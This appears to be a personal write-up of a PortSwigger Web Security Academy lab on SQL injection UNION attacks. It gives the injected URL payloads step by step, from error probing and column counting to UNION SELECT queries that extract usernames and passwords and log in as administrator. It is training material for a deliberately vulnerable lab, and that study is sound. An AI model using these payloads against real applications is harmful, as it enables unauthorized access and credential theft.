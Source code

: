 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

- sqli: product category 
- end goal: retrieves all usernames and passwords and login as administrator user

### Analysis
- url: `https://0a4a006503f28d10808b9e12003f0018.web-security-academy.net/`

- front-end: `/filter?category=Accessories`
- back-end:
```sql
select * from prodct where category = 'Accessories' and released = 1
```

- check sqli vulnerability
- front-end: `/filter?category=Accessories'`
- back-end:
```sql
select * from prodct where category = 'Accessories'' and released = 1
'-- 500 Internal Server Error
```

- front-end: `/filter?category=Accessories'--`
- back-end:
```sql
select * from prodct where category = 'Accessories'--' and released = 1
-- 200 OK
```

- determine how many columns are contain on this website
- front-end: `/filter?category=Accessories' order by 2--`
- back-end:
```sql
select * from prodct where category = 'Accessories' order by 2--' and released = 1
-- 200 OK: I found 2 columns which contain this website
```

- determine which columns are contain text
this website
- front-end: `/filter?category=Accessories' union select null, 'a'--`
- back-end:
```sql
select * from prodct where category = 'Accessories' union select null, 'a'--' and released = 1
-- 200 OK: I found 1 column is contain with text
```

- output data from other tables
- front-end: `/filter?category=Accessories' union select null, username from users--`
- back-end:
```sql
select * from prodct where category = 'Accessories' union select null, username from users--' and released = 1
-- 200 OK: username: administrator
```
- front-end: `/filter?category=Accessories' union select null, password from users--`
- back-end:
```sql
select * from prodct where category = 'Accessories' union select null, password from users--' and released = 1
-- 200 OK: password: 0fa867hlfg4hpfgh9k00
```
- login administrator account
- Congratulations, you solved the lab!

---